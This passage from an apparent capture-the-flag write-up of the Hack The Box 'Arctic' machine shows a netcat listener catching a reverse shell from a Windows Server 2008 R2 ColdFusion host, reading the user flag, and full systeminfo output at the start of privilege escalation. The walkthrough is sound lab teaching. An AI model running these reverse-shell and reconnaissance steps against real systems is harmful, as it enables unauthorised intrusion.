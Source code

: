 // And, We got a shell !!!

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.238] from (UNKNOWN) [10.10.10.11] 49513
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\ColdFusion8\runtime\bin> whoami
    arctic\tolis

// and user flag !!

    C:\Users\tolis\Desktop> type user.txt
    02650d3.................


### -------Privilleges Escalation------

// Lets run systemifo

    C:\Users\tolis\Desktop> systeminfo
-------

    Host Name:                 ARCTIC
    OS Name:                   Microsoft Windows Server 2008 R2 Standard 
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Server
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:   
    Product ID:                55041-507-9857321-84451
    Original Install Date:     22/3/2017, 11:09:45 ��
    System Boot Time:          7/8/2021, 1:26:32 ��
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               x64-based PC
    Processor(s):              2 Processor(s) Installed.
                               [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                               [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     1.023 MB
    Available Physical Memory: 214 MB
    Virtual Memory: Max Size:  2.047 MB
    Virtual Memory: Available: 1.149 MB
    Virtual Memory: In Use:    898 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                               [01]: Intel(R) PRO/1000 MT Network Connection
                                     Connection Name: Local Area Connection
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.11
